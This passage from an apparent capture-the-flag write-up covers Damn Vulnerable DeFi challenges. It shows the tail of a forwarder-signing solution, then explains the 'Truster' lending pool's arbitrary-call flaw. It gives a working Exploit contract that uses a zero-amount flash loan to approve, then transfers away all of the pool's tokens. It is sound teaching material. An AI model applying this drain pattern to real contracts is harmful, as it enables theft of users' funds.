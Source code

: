 ```solidity

        bytes32 req_hash = keccak256(abi.encodePacked("\x19\x01", forwarder.domainSeparator(), forwarder.getDataHash(request)));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, req_hash);
        forwarder.execute(request, abi.encodePacked(r,s,v));
    }
```


## 3. Truster
```
More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.
```

As we saw in challenge 1, there is a standardized way to interact with flash lenders, `IERC3156FlashBorrower`. This interface defines a strict way that the lender calls back to the borrower. In this challenge, `TrusterLenderPool` has ignored that interface and is doing it naively.


```solidity
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore) {
            revert RepayFailed();
        }

        return true;
    }
```

The `flashLoan` function takes `borrower`, `target`, and `data` arguments that are of immediate interest. The `borrower` does not have to be the `msg.sender` nor the `target`. Which function to call and what arguments to call it with are also free variables.

The exploit is simple. Call `flashLoan` with the token as the `target` and encode `approve` as the function call. Because the assert statments in solution checker require it to be done in a single transaction, just create a contract to do the work and deploy it.

```solidity
contract Exploit {
    uint256 constant TOKENS_IN_POOL = 1_000_000e18;

    function beatemup(TrusterLenderPool pool, address recovery, DamnValuableToken token) external {
        pool.flashLoan(0, address(this), address(token), abi.encodeWithSignature("approve(address,uint256)", address(this), TOKENS_IN_POOL));
        token.transferFrom(address(pool), address(this), TOKENS_IN_POOL);
        token.transfer(recovery, TOKENS_IN_POOL);
    }

}
```
